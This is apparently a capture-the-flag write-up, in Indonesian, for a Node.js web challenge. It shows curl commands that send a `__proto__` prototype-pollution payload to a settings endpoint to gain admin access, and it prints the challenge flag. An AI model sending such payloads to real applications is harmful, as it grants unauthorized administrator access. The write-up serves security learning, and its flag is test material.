

# NexaPartner

[Indeks kategori](../README.md) · [Medium](../../README.md) · [Indeks utama](../../../README.md)

| Informasi | Nilai |
| --- | --- |
| Kategori | Web Exploitation |
| Difficulty | Medium |
| Author | Ariaf |
| Layanan | `http://s1.nfx.my.id:46726` |
| Verifikasi | Flag diperoleh dari respons HTTP admin console (artefak tersimpan); belum ada bukti accepted dari platform |

## Ringkasan

NexaPartner adalah portal partner (Express/Node.js) dengan halaman login,
dashboard, settings, dan konsol audit admin di `/admin` serta `/admin/audit`.
Endpoint `POST /api/settings` melakukan deep-merge body JSON apa pun ke objek
settings tanpa sanitasi, sehingga properti `__proto__` ikut ter-merge dan
mengubah `Object.prototype`. Kondisi cek role pada konsol admin membaca
properti yang tidak dimiliki objek session secara langsung, sehingga terpengaruh
prototype yang sudah tercemar (JSON prototype pollution) dan akses admin
terbuka. Flag ada di halaman audit console sebagai "recovery token".

## Alur penyelesaian

### 1. Pemeriksaan awal

- Halaman login memperlihatkan akun demo:
  `partner@nexapartner.test` / `partner1234`.
- Setelah login, navigasi hanya berisi Dashboard, Settings, dan API docs.
  Namun saat probing, `/admin` dan `/admin/audit` mengembalikan **403**
  ("restricted to Partner Operations administrators") — artinya rute ada,
  hanya gated oleh role.
- Halaman settings memakai `POST /api/settings` dengan JSON. Pengujian
  menunjukkan body apa pun (termasuk field tak dikenal seperti `role`,
  `user`, `isAdmin`) diterima dan dikembalikan utuh — ada mass assignment /
  deep merge tanpa filter.

### 2. Eksploitasi prototype pollution

Login, lalu kirim payload yang mencemari `Object.prototype` lewat
`__proto__` pada body JSON ke `/api/settings`:

```bash
curl -c jar -X POST http://s1.nfx.my.id:46726/login \
  -d 'email=partner@nexapartner.test&password=partner1234'

curl -b jar -X POST http://s1.nfx.my.id:46726/api/settings \
  -H 'Content-Type: application/json' \
  -d '{"__proto__":{"role":"admin","isAdmin":true,"admin":true}}'
```

Respons menunjukkan field ikut tersimpan, dan merge rekursif pada key
`__proto__` menulis ke `Object.prototype` (terlihat dari field bersarang yang
"hilang" karena terserap ke prototype).

### 3. Akses konsol admin dan ambil flag

Setelah pollution, minta halaman audit dengan sesi yang sama:

```bash
curl -b jar http://s1.nfx.my.id:46726/admin/audit
```

Kali ini respons **200** berisi halaman "Partner audit console" dengan pill
**Administrator** (sebelumnya 403). Di tabel audit log dan panel "Recovery
token" tercantum flag. Artefak respons tersimpan di
[assets/admin-audit-console.html](assets/admin-audit-console.html); respons
403 sebelum eksploitasi ada di [assets/admin-403.html](assets/admin-403.html).



## Flag

```text
NFX{js0n_pr0t0_p0llut10n_4dm1n_byp4ss}
```

## Reproduksi

Langkah di atas dapat diulang selama instance target masih hidup:

```bash
curl -c jar -X POST http://s1.nfx.my.id:46726/login \
  -d 'email=partner@nexapartner.test&password=partner1234'
curl -b jar -X POST http://s1.nfx.my.id:46726/api/settings \
  -H 'Content-Type: application/json' \
  -d '{"__proto__":{"role":"admin","isAdmin":true}}'
curl -b jar http://s1.nfx.my.id:46726/admin/audit | grep -o 'NFX{[^}]*}'
```

Tidak ada solver khusus; hanya `curl`. Catatan: saat penulisan, instance
`46726` sudah tidak dapat dijangkau sehingga flag tidak bisa diverifikasi
live ulang, tetapi artefak respons admin console tersimpan sebagai bukti.

## Penggunaan AI

Agent (Mistral Large) membantu eksplorasi endpoint, merumuskan payload
prototype pollution, dan menyusun dokumentasi writeup ini.
